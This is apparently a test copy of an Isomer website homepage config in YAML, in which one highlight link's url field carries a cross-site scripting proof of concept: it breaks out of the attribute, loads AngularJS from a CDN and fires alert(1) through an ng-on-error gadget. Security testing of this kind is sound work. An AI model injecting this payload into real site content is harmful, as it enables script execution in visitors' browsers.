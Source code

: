 ```yaml
---
layout: homepage
title: Isomer Site
description: Brief site description here
image: /images/isomer-logo.svg
permalink: /
notification: ffffff
sections:
  - hero:
      title: Hero title
      subtitle: Hero subtitle
      background: /images/hero-banner.png
      button: Contact Us
      url: /contact-us/
      key_highlights:
        - abcd: abcd
          title: Highlight A
          description: Important highlight A is important
          url: https://google.com/tt
        - title: Highlight B
          description: Important highlight B is equally important
          url: https://test.com/"'>payload123<script
            src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.js"></script>
            <img data-ng-app=""
            data-ng-on-error="$event.target.ownerDocument.defaultView.alert(1)"
            src="x">uu
        - title: Page A
          description: Page A is important too
          url: /privacy/
  - infobar:
      title: Infobar title
      subtitle: Subtitle
      description: About a sentence worth of description here
      button: Button text
      url: /faq/
  - resources:
      title: Resourcesffff
      subtitle: fffff
      id: resources
      button: ffff
---
```

